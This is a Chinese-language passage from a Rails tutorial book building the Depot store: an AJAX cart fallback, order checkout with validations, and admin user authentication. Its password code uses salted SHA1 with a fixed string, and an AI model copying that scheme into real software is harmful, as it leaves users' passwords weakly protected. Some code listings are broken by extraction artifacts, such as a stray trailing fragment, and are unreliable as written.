还记得吗，在第 126 页，我们安排让购物车显示在侧边栏中。这是在我们向应用程序添加一行 AJAX 代码之前完成的。如果我们能在浏览器中禁用 JavaScript 时回退到这种行为，那么应用程序就能像为我们的其他同事一样为 Bruce 工作。这基本上意味着，如果发往 `add_to_cart` 的请求不是来自 JavaScript，我们希望做原始应用程序所做的事，即重定向到索引页。当索引页显示时，更新后的购物车将出现在侧边栏中。

如果用户点击 `form_remote_tag` 内的按钮，会发生两种情况之一。如果 JavaScript 被禁用，应用程序中的目标操作会使用常规的 HTTP POST 请求被调用——它就像一个普通的表单。然而，如果 JavaScript 被启用，它将覆盖这个常规的 POST，而是使用一个 JavaScript 对象来与服务器建立一个后台通道。这个对象是 `XmlHTTPRequest` 类的一个实例。因为说起来太拗口，大多数人（和 Rails）将其缩写为 xhr。

因此，在服务器端，我们可以通过测试传入的请求是否由 xhr 对象生成，来判断我们是否正在与支持 JavaScript 的浏览器通信。而 Rails 的 `request` 对象（在控制器和视图中可用）使得测试这个条件变得很容易：它提供了一个 `xhr?` 方法。结果是，要让我们的应用程序无论 JavaScript 是否启用都能工作，只需在 `add_to_cart` 操作中添加一行代码。

Download `depot_o/app/controllers/store_controller.rb`

```
def add_to_cart
  begin
    product = Product.find(params[:id])
  rescue ActiveRecord::RecordNotFound
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @current_item = @cart.add_product(product)
    if request.xhr?
    else
      redirect_to_index
    end
  end
end
```


redirect_to_index unless request.xhr?
end
end

### 9.6 我们刚刚做了什么

在这次迭代中，我们为购物车添加了 AJAX 支持。

-   我们将购物车移至侧边栏。然后我们安排 `add_to_cart` 操作来重新显示目录页面。
-   我们使用 `form_remote_tag` 通过 AJAX 调用 `add_to_cart` 操作。
-   然后，我们使用一个 `.rjs` 模板来更新页面，只显示购物车的 HTML。
-   为了帮助用户看到购物车的变化，我们添加了一个高亮效果，同样是使用 `.rjs` 模板。
-   我们编写了一个辅助方法，当购物车为空时将其隐藏，并在添加商品时使用 `.rjs` 模板将其显示出来。
-   最后，我们让应用程序在用户浏览器禁用 JavaScript 时也能工作，方法是回退到我们开始 AJAX 之旅之前实现的行为。

关键要点是 AJAX 开发的增量式风格。从一个传统应用程序开始，然后逐一添加 AJAX 功能。AJAX 可能很难调试：通过缓慢地将其添加到应用程序中，你可以更容易地追踪到应用程序停止工作时发生了什么变化。而且，正如我们所看到的，从一个传统应用程序开始，使得在同一代码库中同时支持 AJAX 和非 AJAX 行为变得更加容易。

最后，有几个提示。首先，如果你计划进行大量的 AJAX 开发，你可能需要熟悉浏览器的 JavaScript 调试工具和 DOM 检查器。*Pragmatic Ajax: A Web 2.0 Primer* [JG06] 的第 8 章有很多有用的技巧。其次，我发现开发时运行两个不同的浏览器很有用（我个人在 Mac 上使用 Firefox 和 Safari）。我在一个浏览器中启用 JavaScript，在另一个浏览器中禁用它。然后，当我添加一些新功能时，我会在两个浏览器中进行测试，以确保无论 JavaScript 状态如何，它都能正常工作。

#### 动手试试

这里有一些你可以自己尝试的东西。

-   当用户通过重新绘制整个目录来清空购物车时，购物车目前是隐藏的。你能更改应用程序，改用 `Script.aculo.us` 的 `blind_up` 来实现吗？
-   如果浏览器禁用了 JavaScript，你所做的更改还能正常工作吗？
-   为购物车中的每个商品旁边的添加链接进行实验。当点击时，它应该调用一个操作来减少商品数量，当数量达到零时从购物车中删除它。首先不使用 AJAX 实现它，然后再添加 AJAX 功能。

（你会在 http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime 找到提示）

在本章中，我们将看到

-   使用外键连接表
-   使用 belongs_to 和 has_many
-   基于模型创建表单（form_for）
-   连接表单、模型和视图

# 第10章

## 任务E：结账！

让我们盘点一下。到目前为止，我们已经搭建了一个基本的产品管理系统，实现了一个目录，并且有一个看起来相当不错的购物车。所以现在我们需要让买家实际购买购物车里的东西。让我们来实现结账功能。

我们不会做得太复杂。现在，我们要做的只是获取客户的联系信息和支付选项。使用这些信息，我们将在数据库中创建一个订单。在这个过程中，我们将更多地了解模型、验证和表单处理。

### 10.1 迭代E1：捕获订单

一个订单是一组订单项，以及交易的详细信息。我们已经有了一些订单项的雏形。我们的购物车包含购物车项，但目前我们没有它们的数据库表。我们也没有一个表来保存订单信息。然而，基于第66页的图表，结合与客户的简短交流，我们现在可以生成 Rails 模型并填充迁移来创建对应的表。

首先，我们创建两个模型。

```
depot> ruby script/generate model order
...
depot> ruby script/generate model line_item
...
```

然后，我们编辑生成器创建的两个迁移文件。首先，填写创建 orders 表的那个。

```
# Download depot_p/db/migrate/005_create_orders.rb

class CreateOrders < ActiveRecord::Migration
  def self.up
    create_table :orders do |t|
      t.column :name, :string
      t.column :address, :text
      t.column :email, :string
      t.column :pay_type, :string, :limit => 10
    end
  end

  def self.down
    drop_table :orders
  end
end
```

然后，填写 line_items 的迁移。

```
class CreateLineItems < ActiveRecord::Migration
  def self.up
    create_table :line_items do |t|
      t.column :product_id,    :integer, :null => false
      t.column :order_id,      :integer, :null => false
      t.column :quantity,      :integer, :null => false
      t.column :total_price,   :decimal, :null => false, :precision => 8, :scale => 2
    end

    execute "alter table line_items add constraint fk_line_item_products
                   foreign key  (product_id) references products(id)"

    execute "alter table line_items add constraint fk_line_item_orders
                   foreign key  (order_id) references orders(id)"
  end

  def self.down
    drop_table :line_items
  end
end
```

注意这个表有两个外键。line_items 表中的每一行都与一个订单和一个产品相关联。不幸的是，Rails 迁移没有提供数据库无关的方式来指定这些外键约束，因此我们不得不求助于执行原生 DDL 语句（在本例中是 MySQL 的语句）。¹

现在我们已经创建了两个迁移，我们可以应用它们。

```
depot> rake db:migrate
== CreateOrders: migrating ======================================
-- create_table(:orders)
   -> 0.0066s
== CreateOrders: migrated (0.0096s) =============================
```

1. 许多 Rails 开发人员不费心指定数据库级别的约束，如外键，而是依赖应用程序代码来确保一切都能正确连接。这可能就是 Rails 迁移不允许你指定约束的原因。然而，当涉及到数据库完整性时，我（Dave）认为额外的一点检查可以节省大量的深夜生产系统调试。你可以在 http://www.redhillconsulting.com.au/rails_plugins.html 找到一个自动为模型添加外键约束的插件。

**Joe提问...**

**信用卡处理在哪里？**

到目前为止，我们的教程应用程序将稍微偏离现实。在现实世界中，我们可能希望应用程序处理结账的商业方面。我们甚至可能希望集成信用卡处理（可能使用 Payment 模块* 或 Tobias Lütke 的 ActiveMerchant 库）。† 然而，与后端支付处理系统集成需要大量的文书工作和周折。而这会分散我们对 Rails 的注意力，所以我们打算暂时忽略这个细节。

---
*.  http://rubyforge.org/projects/payment
†.  http://home.leetsoft.com/am/

```
== CreateLineItems: migrating ====================================
-- create_table(:line_items)
   -> 0.0072s
-- execute("alter table line_items \n add constraint fk_line_...
   -> 0.0134s
-- execute("alter table line_items \n add constraint fk_line_...
   -> 0.0201s
== CreateLineItems: migrated (0.0500s) ===========================
```

由于数据库当前版本是 4，运行 `db:migrate` 任务会应用两个新迁移。当然，我们也可以在创建各个迁移后分别运行迁移任务来单独应用它们。

#### 模型之间的关系

数据库现在知道了订单项、订单和产品之间的关系。但是，Rails 应用程序不知道。我们需要在模型文件中添加一些声明来指定它们之间的相互关系。打开新创建的 `app/models` 中的 `order.rb` 文件，并添加一个 `has_many` 调用。

```
class Order < ActiveRecord::Base
  has_many :line_items
  # ...
end
```

这个 `has_many` 指令是不言自明的：一个订单（可能）有许多相关的订单项。它们链接到订单是因为每个订单项包含对其订单 id 的引用。

现在，为了完整性，我们应该给产品模型添加一个 `has_many` 指令。毕竟，如果我们有很多订单，每个产品可能有许多引用它的订单项。


class Product < ActiveRecord::Base
  has_many :line_items
  # ...
end

接下来，我们将指定相反方向的链接，即从订单项（line item）指向订单和产品表。为此，我们在 `line_item.rb` 文件中使用两次 `belongs_to` 声明。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :order
  belongs_to :product
end
```

`belongs_to` 告诉 Rails，`line_items` 表中的行是 `orders` 和 `products` 表中行的子记录：除非存在相应的订单和产品行，否则订单项无法存在。有一个简单的方法来记住在哪里放置 `belongs_to` 声明：如果一个表有外键，那么对应的模型就应该为每个外键包含一个 `belongs_to`。

这些不同的声明到底做什么呢？基本上，它们为模型对象添加了导航能力。因为我们在 `LineItem` 上添加了 `belongs_to` 声明，我们现在可以检索它的 Order 并显示客户姓名：

```ruby
li = LineItem.find(...)
puts "This line item was bought by #{li.order.name}"
```

并且因为一个 Order 被声明为拥有多个订单项，我们可以从一个订单对象中引用它们（作为一个集合）。

```ruby
order = Order.find(...)
puts "This order has #{order.line_items.size} line items"
```

我们将在第 **327** 页开始更详细地讨论模型间的关系。

##### 创建订单捕获表单

现在我们有了表和模型，就可以开始结账流程了。首先，我们需要在购物车中添加一个“结账”按钮。我们将把它链接回商店控制器中的一个结账动作。

下载 `depot_p/app/views/store/_cart.rhtml`

```erb
<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>
  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= number_to_currency(cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Checkout", :action => :checkout %>
<%= button_to "Empty cart", :action => :empty_cart %>
```

我们希望结账动作向用户呈现一个表单，提示他们输入 `orders` 表中的信息：他们的姓名、地址、电子邮件地址和支付类型。这意味着在某个时刻，我们将显示一个包含表单的 Rails 模板。这个表单上的输入字段必须链接到 Rails 模型对象中的相应属性，因此我们需要在结账动作中创建一个空的模型对象，以便为这些字段提供操作对象。（我们还必须找到当前的购物车，因为它在布局中显示。在每个动作开始时查找购物车开始变得繁琐；我们稍后会看到如何消除这种重复。）

```ruby
def checkout
  @cart = find_cart
  if @cart.items.empty?
    redirect_to_index("Your cart is empty")
  else
    @order = Order.new
  end
end
```

请注意我们如何检查购物车中是否有内容。这可以防止人们直接导航到结账选项并创建空订单。

现在，关于模板本身。为了捕获用户信息，我们将使用一个表单。与所有 HTML 表单一样，技巧在于将任何初始值填充到表单字段中，然后在用户点击提交按钮时将这些值提取回我们的应用程序中。

在控制器中，我们设置 `@order` 实例变量以引用一个新的 Order 模型对象。我们这样做是因为视图从此对象中的数据填充表单。就目前而言，这并不特别有趣：因为这是一个新模型，所有字段都将是空的。然而，考虑一般情况。也许我们想编辑一个现有的模型。或者用户尝试输入一个订单，但他们的数据验证失败。在这些情况下，我们希望在显示表单时向用户显示模型中存在的任何数据。在这个阶段传入空的模型对象使得所有这些情况保持一致——视图总是可以假设有一个模型对象可用。

然后，当用户点击提交按钮时，我们希望从表单中提取新数据到控制器中的一个模型对象中。

幸运的是，Rails 使这变得相对轻松。它为我们提供了一堆表单辅助方法。这些辅助方法与控制器和模型交互，以实现表单处理的集成解决方案。在开始我们的最终表单之前，让我们看一个简单的例子：

```erb
<% form_for :order, :url => { :action => :save_order } do |form| %>
  <p>
    <label for="order_name">Name:</label>
    <%= form.text_field :name, :size => 40 %>
  </p>
<% end %>
```

这段代码中有两个有趣的地方。首先，第 1 行的 `form_for` 辅助方法设置了一个标准的 HTML 表单。但它做的不止这些。第一个参数 `:order` 告诉该方法它正在处理一个名为 `@order` 的实例变量中的对象。辅助方法在命名字段以及安排将字段值传回控制器时使用此信息。

`:url` 参数告诉辅助方法当用户点击提交按钮时该做什么。在这种情况下，我们将生成一个 HTTP POST 请求，最终将由控制器中的 `save_order` 动作处理。

你会看到 `form_for` 设置了一个 Ruby 块环境（这个块在第 6 行结束）。在这个块内，你可以放置正常的模板内容（例如 `<p>` 标签）。但你也可以使用块的参数（本例中为 `form`）来引用一个表单上下文。我们在第 4 行使用此上下文向表单添加一个文本字段。因为文本字段是在 `form_for` 的上下文中构建的，所以它自动与 `@order` 对象中的数据关联。

所有这些关系都可能令人困惑。重要的是要记住，Rails 需要知道与模型关联的字段的*名称*和*值*。`form_for` 和各种字段级辅助方法（如 `text_field`）的组合提供了这些信息。前面的图 10.1 显示了这个过程。

现在我们可以创建用于捕获客户结账详细信息的表单模板了。它从商店控制器的结账动作调用，因此模板将被命名为 `checkout.rhtml`，位于目录 `app/views/store` 中。

Rails 为所有不同的 HTML 级表单元素提供了表单辅助方法。在接下来的代码中，我们使用 `text_field` 和 `text_area` 辅助方法来捕获客户的姓名、电子邮件和地址。

```erb
下载 depot_p/app/views/store/checkout.rhtml
<div class="depot-form">
  <%= error_messages_for 'order' %>
  <fieldset>
    <legend>Please Enter Your Details</legend>

    <% form_for :order, :url => { :action => :save_order } do |form| %>
      <p>
        <label for="order_name">Name:</label>
        <%= form.text_field :name, :size => 40 %>
      </p>

      <p>
        <label for="order_address">Address:</label>
        <%= form.text_area :address, :rows => 3, :cols => 40 %>
      </p>

      <p>
        <label for="order_email">E-Mail:</label>
        <%= form.text_field :email, :size => 40 %>
      </p>

      <p>
        <label for="order_pay_type">Pay with:</label>
        <%=
          form.select :pay_type,
            Order::PAYMENT_TYPES,
            :prompt => "Select a payment method"
        %>
      </p>

      <%= submit_tag "Place Order", :class => "submit" %>
    <% end %>
  </fieldset>
</div>
```

其中唯一棘手的部分是与选择列表相关的代码。我们假设可用的支付选项列表是 Order 模型的一个属性——它将是一个模型文件中的数组的数组。每个子数组的第一个元素是作为选项显示在选择列表中的字符串，第二个值存储在数据库中。我们最好在模型 `order.rb` 中定义这个选项数组，以免忘记。

```ruby
class Order < ActiveRecord::Base
  PAYMENT_TYPES = [
    #  显示内容          存储在数据库中
    [ "Check",            "check" ],
    [ "Credit card",      "cc" ],
    [ "Purchase order",   "po" ]
  ]

  # ...
end
```

在模板中，我们将这个支付类型选项数组传递给 `select` 辅助方法。我们还传递了 `:prompt` 参数，它添加了一个包含提示文本的虚拟选项。

添加一些 CSS 魔法（参见附录中的清单），我们就可以开始使用我们的表单了。在购物车中添加一些东西，然后点击 [结账] 按钮。你应该会看到类似下一页图 **10.2** 的内容。

看起来不错！但是，如果你点击 [下单] 按钮，你会看到：

**Unknown action**
`No action responded to save_order`

不过，在继续处理这个新动作之前，让我们先通过添加一些验证来完成 `checkout` 动作。我们将更改 `Order` 模型以验证客户为所有字段（包括支付类型下拉列表）输入了数据。我们还验证支付类型是否为接受的值之一。

1. 如果我们预计其他非 Rails 应用程序会更新 `orders` 表，我们可能希望将支付类型列表移到一个单独的查找表中，并将支付类型列设为引用该新表的外键。Rails 也为此类场景提供了良好的支持：你只需将查找表上的 `find(:all)` 结果传递给 `select` 辅助方法。
2. 为了获取有效的支付类型列表，我们取我们的数组的数组，并使用 Ruby 的 `map` 方法仅提取值。
3. 有些人可能会想，既然支付类型的值来自一个仅包含有效值的下拉列表，为什么我们还要费心验证它？我们这样做是因为应用程序不能假设它接收到的值来自它创建的表单。没有什么能阻止恶意用户绕过我们的表单直接向应用程序提交表单数据。如果用户设置了一个未知的支付类型，他们很可能就会免费获得我们的产品。


##### 捕获订单详情

让我们在控制器中实现 `save_order` 操作。此方法需要：

+   1. 捕获表单中的值以填充新的 Order 模型对象。
2. 将我们购物车中的订单项添加到该订单中。
3. 验证并保存订单。如果失败，显示相应信息，并让用户修正问题。
4. 订单成功保存后，重新显示目录页面，并包含一条确认订单已下达的消息。

```ruby
# depot_p/app/models/order.rb

class Order < ActiveRecord::Base
  PAYMENT_TYPES = [
    # 显示的名称         存储在数据库中的值
    [ "支票",         "check" ],
    [ "信用卡",   "cc"    ],
    [ "采购订单", "po"   ]
  ]

  validates_presence_of :name, :address, :email, :pay_type
  validates_inclusion_of :pay_type, :in => PAYMENT_TYPES.map {|disp, value| value}

  # ...
end
```

请注意，我们已经在页面顶部调用了 `error_messages_for` 辅助方法。这将报告验证失败（但前提是再编写一小段代码）。

##### Joe 提问...

> ### 你不是在创建重复的订单吗？

Joe 看到我们的控制器在两个操作（checkout 和 save_order）中都创建了 Order 模型对象，这让他感到担忧。他想知道为什么这不会导致数据库中出现重复订单。

答案很简单：checkout 操作在内存中创建一个 Order 对象，仅仅是为了给模板代码提供一些可操作的数据。一旦响应被发送到浏览器，该特定对象就会被丢弃，并最终被 Ruby 的垃圾回收器回收。它从未接近过数据库。

save_order 操作也创建一个 Order 对象，并从表单字段中填充它。这个对象确实会被保存到数据库中。

因此，模型对象扮演两个角色：它们将数据映射到数据库中并从中读取，但它们也只是保存业务数据的普通对象。只有在你明确指示它们时（通常通过调用 save），它们才会影响数据库。

该方法最终看起来像这样。

```ruby
def save_order
  @cart = find_cart
  @order = Order.new(params[:order])
  @order.add_line_items_from_cart(@cart)
  if @order.save
    session[:cart] = nil
    redirect_to_index("感谢您的订单")
  else
    render :action => :checkout
  end
end
```

在第 3 行，我们创建一个新的 Order 对象并使用表单数据初始化它。在这种情况下，我们想要所有与订单对象相关的表单数据，所以我们从参数中选择 :order 哈希（这是我们作为 form_for 的第一个参数传递的名称）。下一行将购物车中已存储的商品添加到该订单中——我们稍后会编写实际的方法来完成此操作。

接下来，在第 5 行，我们告诉订单对象将自身（及其子对象，即订单项）保存到数据库。在此过程中，订单对象将执行验证（但我们稍后会谈到）。如果保存成功，我们会做两件事。首先，我们通过从会话中删除购物车为客户的下一次订单做准备。然后，我们使用 `redirect_to_index` 方法重新显示目录，并显示一条愉快的消息。如果保存失败，我们则重新显示结账表单。

在 `save_order` 操作中，我们假设订单对象包含 `add_line_items_from_cart` 方法，所以现在让我们实现该方法。

```ruby
def add_line_items_from_cart(cart)
  cart.items.each do |item|
    li = LineItem.from_cart_item(item)
    line_items << li
  end
end
```

请注意，我们不需要对各种外键字段做任何特殊处理，例如设置订单项行中的 `order_id` 列以引用新创建的订单行。Rails 使用我们添加到 `Order` 和 `LineItem` 模型中的 `has_many` 和 `belongs_to` 声明来为我们完成这些关联工作。在第 4 行将每个新订单项附加到 `line_items` 集合中，就将键管理的职责交给了 Rails。

`Order` 模型中的这个方法又依赖于 `LineItem` 模型中的一个简单辅助方法，该方法根据给定的购物车项目构建一个新的订单项。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :order
  belongs_to :product

  def self.from_cart_item(cart_item)
    li = self.new
    li.product     = cart_item.product
    li.quantity     = cart_item.quantity
    li.total_price = cart_item.price
    li
  end
end
```

那么，作为对此功能的首次测试，在结账页面上，**不填写任何表单字段**，直接点击 `Place Order` 按钮。你应该会看到结账页面重新显示，并附有一些错误信息，抱怨字段为空，如后面图 10.3 所示。（如果你在家跟着操作，并且得到消息 "No action responded to save_order"，可能是因为你在控制器中 `private` 声明之后添加了 `save_order` 方法。私有方法不能被作为操作调用。）

##### 图 10.3：全部失败！每个字段都验证失败

如果我们像下页图 10.4 顶部所示那样填写一些数据，然后点击 `Place Order`，我们应该会被带回目录页面，如该图底部所示。但操作成功了吗？让我们查看数据库。

```sql
depot> mysql -u root depot_development
mysql> select * from orders;
+----+-------------+------------+------------------------------+----------+
| id | name        | address    | email                        | pay_type |
+----+-------------+------------+------------------------------+----------+
|  1 | Dave Thomas | 123 Main St | customer@pragprog.com | check    |
+----+-------------+------------+------------------------------+----------+
1 row in set (0.07 sec)

mysql> select * from line_items;
+----+------------+----------+----------+-------------+
| id | product_id | order_id | quantity | total_price |
+----+------------+----------+----------+-------------+
|  1 |          1 |        1 |        1 |       29.95 |
+----+------------+----------+----------+-------------+
1 row in set (0.17 sec)
```

##### 图 10.4：我们的第一次结账

##### 最后的 AJAX 修改

我们接受订单后，会重定向到索引页面，显示愉快的 flash 消息“感谢您的订单”。如果用户继续购物，并且他们的浏览器启用了 JavaScript，我们将无需重绘主页面就能在侧边栏中填充购物车。这意味着 flash 消息将继续显示。我们希望它在我们将第一个商品添加到购物车后就消失（就像当浏览器禁用 JavaScript 时那样）。幸运的是，修复很简单：当我们将商品添加到购物车时，只需隐藏包含 flash 消息的 `<div>` 即可。只不过，事情从来都不是那么简单。

第一次尝试隐藏 flash 可能涉及在 `add_to_cart.rjs` 中添加以下行。

```javascript
page[:notice].hide
# 其余代码保持不变...
```

然而，这行不通。如果我们第一次访问商店，flash 中没有任何内容，因此 id 为 `notice` 的 `<div>` 不会显示。而且，如果不存在 id 为 `notice` 的 `<div>`，rjs 模板生成的试图隐藏它的 JavaScript 就会出错，模板的其余部分永远不会执行。结果，你永远看不到侧边栏中的购物车更新。

解决方案有点取巧。我们只想在 notice `<div>` 存在时才运行 `.hide`，但 rjs 没有提供生成测试 div 是否存在的 JavaScript 的能力。不过，它确实允许我们遍历页面上匹配特定 CSS 选择器模式的元素。所以让我们遍历所有 id 为 `notice` 的 `<div>` 标签。循环将找到一个，我们可以隐藏它；或者一个也找不到，那么 hide 就不会被调用。

```javascript
page.select("div#notice").each { |div| div.hide }

page.replace_html("cart", :partial => "cart", :object => @cart)

page[:cart].visual_effect :blind_down if @cart.total_items == 1

page[:current_item].visual_effect :highlight,
                                             :startcolor => "#88ff88",
                                             :endcolor => "#114411"
```

客户对此很满意。我们已经实现了产品维护、基本目录和购物车，现在我们有了一个简单的订购系统。显然，我们还需要编写某种履行应用程序，但这可以留到新的迭代中。（而那个迭代我们在本书中将跳过：它没有太多关于 Rails 的新内容要说。）


#### 我们刚刚做了什么

在相当短的时间内，我们完成了以下工作。

- 我们添加了`orders`和`line_items`表（及相应的模型）并将它们关联起来。
- 我们创建了一个表单来捕获订单详情，并将其链接到订单模型。
- 我们添加了验证，并使用辅助方法将错误信息显示给用户。

#### 动手时间

以下是一些你可以自己尝试的内容。

- 追踪`save_order`、`add_line_items_from_cart`和`from_cart_item`方法的调用流程。控制器、订单模型和订单项模型之间是否实现了适当的解耦？（一种判断方法是审视潜在的变更——如果你修改了某些内容，例如向购物车项添加一个新字段，这种变更是否会波及整个代码？）你能找到进一步降低耦合度的方法吗？
- 如果在结账页面已经显示时，你点击侧边栏中的`结账`按钮，会发生什么？你能找到在这种情况下禁用该按钮的方法吗？（提示：在控制器中设置的变量在布局和直接渲染的模板中均可使用。）
- 可用支付类型的列表目前作为常量存储在Order类中。你能将这个列表移到数据库表中吗？你还能为该字段设置验证吗？

（你会在 http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime 找到相关提示）

在本章中，我们将学习：

- 向模型添加虚拟属性
- 使用更多验证
- 编写没有底层模型的表单
- 实现单动作表单处理
- 为会话添加身份验证
- 使用script/console
- 使用数据库事务
- 编写Active Record钩子

# 第11章

## 任务F：管理功能

我们有一位满意的客户——在很短的时间内，我们共同构建了一个基本的购物车，她可以开始向她的用户展示了。她只是希望再做一处改动。目前，任何人都可以访问管理功能。她希望我们添加一个基本的用户管理系统，强制你登录后才能访问网站的管理部分。

我们很乐意这样做，因为这给了我们一个机会来研究虚拟属性和过滤器，并且让我们可以稍微整理一下应用程序。

与我们的客户沟通后，我们的应用程序似乎不需要一个特别复杂的安全系统。我们只需要根据用户名和密码来识别若干人员。一旦被识别，这些人就可以使用所有的管理功能。

### 11.1 迭代F1：添加用户

让我们从创建一个模型和数据库表开始，用于存储我们管理员的用户名和哈希密码。我们不会以明文存储密码，而是通过SHA1摘要处理它们，生成一个160位的哈希值。我们通过摘要处理用户提供的值，并将该哈希值与数据库中的值进行比较，从而验证用户的密码。通过加盐，这个系统变得更加安全，加盐通过将密码与一个伪随机字符串组合来改变创建哈希时使用的种子。¹

```
depot> ruby script/generate model user
```

让我们创建迁移并将其应用到数据库。我们的用户表包含名称、哈希密码和盐值的列。

1. 关于如何执行此操作的其他技巧，请参阅Chad Fowler的《Rails Recipes》[Fow06]中的*Authentication*和*Role-Based Authentication*部分。

```
Download depot_p/db/migrate/007_create_users.rb

class CreateUsers < ActiveRecord::Migration
  def self.up
    create_table :users do |t|
      t.column :name,             :string
      t.column :hashed_password,  :string
      t.column :salt,             :string
    end
  end

  def self.down
    drop_table :users
  end
end
```

照常运行迁移。

```
depot> rake db:migrate
```

现在我们需要充实用户模型。这被证明是相当复杂的，因为从应用程序的角度来看，它必须处理明文密码，但在数据库中维护盐值和哈希密码。让我们分段来看这个模型。首先是验证部分。

```
Download depot_p/app/models/user.rb

class User < ActiveRecord::Base

  validates_presence_of       :name
  validates_uniqueness_of     :name

  attr_accessor :password_confirmation
  validates_confirmation_of :password

  def validate
    errors.add_to_base("Missing password") if hashed_password.blank?
  end
end
```

对于这样一个简单的模型来说，这是相当多的验证。我们检查名称是否存在且唯一（即，数据库中不能有两个用户拥有相同的名称）。然后是那个神秘的`validates_confirmation_of`声明。

你知道那些提示你输入密码，然后让你在另一个字段中重新输入一遍以验证你是否输入正确的表单吗？Rails可以自动验证两个密码是否匹配。我们稍后会看到这是如何工作的。现在，我们只需要知道我们需要两个密码字段，一个用于实际密码，另一个用于确认密码。

最后，我们有一个验证钩子来检查密码是否已设置。但我们不检查password属性本身。为什么？因为它并不真正存在——至少不在数据库中。相反，我们检查其代理——哈希密码——是否存在。但要理解这一点，我们必须看看我们如何处理密码存储。

首先让我们看看如何创建哈希密码。诀窍是创建一个唯一的盐值，将其与明文密码组合成一个字符串，然后对该结果运行SHA1摘要，返回一个40个字符的十六进制数字字符串。我们将把它写成一个私有类方法。（我们还需要记住在文件中`require` digest/sha1库。请参阅第159页开始的清单，看看它放在哪里。）

```
Download depot_p/app/models/user.rb

private

  def self.encrypted_password(password, salt)
    string_to_hash = password + "wibble" + salt  # 'wibble'使其更难猜测
    Digest::SHA1.hexdigest(string_to_hash)
  end
```

我们将通过连接一个随机数和用户对象的对象ID来创建一个盐字符串。只要盐是不可预测的，具体是什么并不重要（例如，使用时间作为盐的熵值低于随机字符串）。我们将这个新的盐存储到模型对象的`salt`属性中。同样，这是一个私有方法，因此将其放在源代码中`private`关键字之后。

```
Download depot_p/app/models/user.rb

  def create_new_salt
    self.salt = self.object_id.to_s + rand.to_s
  end
```

这段代码中有一个我们之前没见过的细微之处。注意我们写了`self.salt = ...`。这强制赋值使用`salt=`访问器方法——我们是在说“在当前对象中调用salt方法”。没有`self.`，Ruby会认为我们是在给一个局部变量赋值，我们的代码将不会有任何效果。

现在我们需要编写一些代码，以便每当一个新的明文密码存储到用户对象时，我们自动创建一个哈希版本（该版本将被存储在数据库中）。我们将通过使明文密码成为模型的一个虚拟属性来实现这一点——它对我们的应用程序来说看起来像一个属性，但不会被持久化到数据库中。

如果不是为了创建哈希版本的需要，我们可以简单地使用Ruby的`attr_accessor`声明来实现。

```
attr_accessor :password
```

在幕后，`attr_accessor`生成两个访问器方法：一个名为`password`的读取器和一个名为`password=`的写入器。写入器方法名以等号结尾这一事实意味着它可以被赋值。因此，我们不是使用标准的访问器，而是自己实现，让写入器也创建新的盐并设置哈希密码。

```
Download depot_p/app/models/user.rb
def password
  @password
end

def password=(pwd)
  @password = pwd
  return if pwd.blank?
  create_new_salt
  self.hashed_password = User.encrypted_password(self.password, self.salt)
end
```

还有最后一个改动。让我们编写一个方法，如果调用者提供正确的用户名和密码，则返回一个用户对象。由于传入的密码是明文，我们必须使用名称作为键读取用户记录，然后使用该记录中的盐值重新构建哈希密码。然后，如果哈希密码匹配，我们返回用户对象。我们可以使用这个方法来验证用户。

```
Download depot_p/app/models/user.rb
def self.authenticate(name, password)
  user = self.find_by_name(name)
  if user
    expected_password = encrypted_password(password, user.salt)
    if user.hashed_password != expected_password
      user = nil
    end
  end
  user
end
```

这段代码使用了一个巧妙的Active Record技巧。你看到方法的第一行调用了`find_by_name`。但我们并没有定义那个名字的方法。然而，Active Record注意到对未定义方法的调用，并发现它以字符串`find_by`开头并以列名结尾。它然后动态地为我们构建了一个查找器方法，并将其添加到我们的类中。我们从第309页开始会更详细地讨论这些动态查找器。

用户模型包含相当多的代码，但它展示了模型如何承载相当多的业务逻辑。在转到控制器之前，让我们回顾一下整个模型。


#### 管理我们的用户

现在我们已经设置了模型和表，需要某种方式来管理这些用户。事实上，我们很可能会添加许多与用户相关的功能：登录、列表显示、删除、添加等等。让我们将这些操作放入各自的控制器中，以保持代码整洁。

此时，我们可以调用与维护产品时使用的相同的Rails脚手架生成器，但这次我们手动实现。这样，我们将尝试一些新技术。我们将从生成控制器（Login）开始，为每个想要的操作添加一个方法。（我将此命令分成两行以适应显示。如果您在家跟随操作，请不要输入 `\`。）

```
depot> ruby script/generate controller Login add_user login logout \
                            index delete_user list_users

exists  app/controllers/
exists  app/helpers/
create  app/views/login
exists  test/functional/
create  app/controllers/login_controller.rb
create  test/functional/login_controller_test.rb
create  app/helpers/login_helper.rb
create  app/views/login/add_user.rhtml
create  app/views/login/login.rhtml
create  app/views/login/logout.rhtml
create  app/views/login/index.rhtml
create  app/views/login/delete_user.rhtml
create  app/views/login/list_users.rhtml
```

我们知道如何在数据库表中创建新行；我们创建一个操作，在视图中放入一个表单，并让该操作调用表单。然后表单回调到某种保存操作，该操作调用模型来保存数据。但为了让本章更有趣一点，让我们在控制器中使用稍微不同的风格来创建用户。

在我们用于维护产品表的自动生成脚手架代码中，`edit` 操作设置了一个用于编辑产品数据的表单。当用户完成表单后，它被路由回控制器中的另一个保存操作。两个独立的方法协同完成工作。我们在捕获客户订单时也使用了相同的技术。

相比之下，我们的用户创建代码将只使用一个操作 `add_user`。在这个方法内部，我们将检测是被调用以显示初始（空）表单，还是被调用以保存已完成表单中的数据。我们将通过查看传入请求的HTTP方法来实现这一点。如果它来自 `<a href="...">` 链接，我们将看到它是一个GET请求。如果它包含表单数据（当用户点击提交按钮时），我们将看到一个POST。（因此，这种风格有时被称为 *回发* 处理。）

在Rails控制器内部，请求信息在 `request` 属性中可用。我们可以使用诸如 `get?` 和 `post?` 之类的方法来检查请求类型。以下是文件 `login_controller.rb` 中 `add_user` 操作的代码。（请注意，我们为此新控制器添加了admin布局——让我们在所有管理功能中保持屏幕布局一致。）

```ruby
class LoginController < ApplicationController
  layout "admin"
  
  def add_user
    @user = User.new(params[:user])
    if request.post? and @user.save
      flash.now[:notice] = "User #{@user.name} created"
      @user = User.new
    end
  end
  # ...
```

